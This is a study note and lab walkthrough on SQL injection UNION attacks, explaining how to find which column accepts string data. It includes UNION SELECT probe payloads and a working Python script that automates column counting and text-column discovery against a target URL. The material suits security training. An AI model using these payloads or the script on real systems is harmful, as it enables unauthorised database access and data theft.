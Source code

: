 # Finding columns to inject in UNION attack
---
- The reason for performing an UNION attack is to able to retrieve the results from an injected query.
- Generally, the data _you want to retrieve_ will be in _string_ form.
- So, you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

- Having already [[2. Determining columns required in an UNION attack|determined]] the number of required columns.
- you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT` payloads.
- For example, if the query returns `four` columns, you would submit:
```python
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

_If the data type of column is not compatible with string data, the injected query will cause a database error, such as:_
```sql
Conversion failed when converting the varchar value 'a' to data type int.
```

- If an _error does not occur_, and the application's response contains some additional content including the injected string value.
- Then, the relevant column is _suitable for retrieving string data_.

![[2. Determining columns required in an UNION attack#Oracle]]


# Lab: SQL injection UNION attack, finding a column containing text
---
1. first, I need to determined 'how many columns' for the injection.
2. by using `ORDER BY` and its hit at `' ORDER BY 4--'`.
3. meaning, there are `3` columns.
4. then, using this payload `' UNION SELECT NULL,NULL,NULL--`
5. put the `string` in each columns and make request on per time.
6. found the injectable columns. `' UNION SELECT NULL,'a',NULL--`

```python
#!/usr/bin/env python3
import requests
import sys

# For debugging with burpsuite
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def get_col(url, payload):
    for i in range(1,int(payload)):
        sqli = f"'+ORDER+BY+{i}--"
        req = requests.get(url+sqli, verify=False)
        if "Internal Server Error" in req.text:
            return i-1
        i = i+1
    return False

def inject_col(url, string, number):
    for i in range(1,int(number+1)):
        payload_list = ['NULL'] * number # 'NULL','NULL','NULL'
        payload_list[i-1] = string
        sqli = "'UNION SELECT " + ','.join(payload_list) + "--"
        req = requests.get(url+sqli, verify=False, proxies=p)
        if "Internal Server Error" not in req.text:
            return i
    return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
        string = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <payload> <string>".format(sys.argv[0]))
        print('[-] Example: {} http://example.com 10 "\'a\'"'.format(sys.argv[0]))
        sys.exit(1)

    print("[-] Figuring out number of columns...")
    num_col = get_col(url, payload)
    if num_col:
        print("[-] The number of columns is {}...".format(num_col))
        print("[-] Figuring out which column contains text...")
        text_col = inject_col(url, string, num_col)
        if text_col:
            print("[-] Injectable columns are {}...".format(text_col))
        else:
            print("[-] SQLi UNION not successful!")
    else:
        print("[-] SQLi UNION not successful!")
```